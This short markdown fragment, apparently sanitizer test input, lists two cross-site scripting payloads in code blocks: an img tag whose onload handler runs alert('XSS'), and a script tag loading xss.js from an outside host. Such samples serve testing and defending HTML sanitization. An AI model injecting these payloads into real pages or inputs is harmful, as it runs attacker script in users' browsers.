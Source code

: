 1. aaa

    ```
    <img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
    ```
    
2. bbb

    ```
    <script src="http://a.com/xss.js"></script>   
    ```
    